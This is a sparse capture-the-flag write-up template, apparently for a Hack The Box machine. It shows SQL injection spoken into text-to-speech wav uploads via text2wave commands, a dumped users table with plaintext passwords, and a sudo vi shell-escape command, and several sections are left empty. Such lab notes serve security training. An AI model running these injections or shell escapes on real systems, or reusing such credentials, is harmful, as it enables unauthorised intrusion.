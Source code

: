 # Information
- CTF Name: 
- CTF Level:
- CTF Description: 
- Date: 
- Platform: 
- Category: 

# Findings

## External
### Enumeration
![](https://i.imgur.com/nH3chXp.png)
#### Port `80`
![](https://i.imgur.com/SwwOObD.png)
![](https://i.imgur.com/BFmTSbZ.png)
![](https://i.imgur.com/mbOsSVt.png)
![](https://i.imgur.com/hl8VWlN.png)
`  MrR3boot@ai.htb `
![](https://i.imgur.com/fshGIgK.png)
![](https://i.imgur.com/wzGqS2d.png)
- Tried to Create some TTS wav files using some websites and uploaded it but there was nothing. so i got some help over here and knew that there is a tool called `text2wav` for linux.
```shell
rexder@HunterDragon ~/C/H/m/ai> echo "Hello World"| text2wave > rex.wav
```
![](https://i.imgur.com/5PMeMEq.png)
- There is a `db.php` that means there is a database, so tried sqli
	- `echo "Hello Friend open Single quote"| text2wave > rex.wav` ![](https://i.imgur.com/gMqdiUk.png)
- After so much trial
	- `echo "open single quote, join , select, username from users pound sign"| text2wave > rex.wav`![](https://i.imgur.com/kaFQx37.png)
- `echo "open single quote, join , select, password from users pound sign"| text2wave > rex.wav` ![](https://i.imgur.com/JJB7vhZ.png)

	- ` alexa : H,Sq9t6}a<)?q93_ ` 
### Gaining Access
![](https://i.imgur.com/dUChPCv.png)

## Internal
### Enumeration
`$enum$`

### Gaining Access


### Maintaining Access
![](https://i.imgur.com/JZ1ESIk.png)
	![](https://i.imgur.com/mtvs0Rn.png)
`/usr/bin/vi`
```shell
/var/www
/var/www/html
```
![](https://i.imgur.com/f7hgJwZ.png)
```shell
+----------+------------------+
| username | password         |
+----------+------------------+
| alexa    | H,Sq9t6}a<)?q93_ |
| root     | H,Sq9t6}a<)?q931 |
| dbuser   | toor             |
| awsadm   | awsadm           |
+----------+------------------+
```
![](https://i.imgur.com/Im7mGg0.png)
`sudo -u mrr3boot vi -c ':!/bin/sh' /dev/null`
![](https://i.imgur.com/1mkxtbC.png)
![](https://i.imgur.com/B8Dh9Oe.png)
#### Port `8080`
![](https://i.imgur.com/Tl2zBm6.png)
#### Port `8000`
![](https://i.imgur.com/Imdr6QO.png)
![](https://i.imgur.com/NV8bRKz.png)
https://book.hacktricks.xyz/network-services-pentesting/pentesting-jdwp-java-debug-wire-protocol
![](https://i.imgur.com/oMJfr6g.png)
![](https://i.imgur.com/1QYNtoF.png)

# Random Notes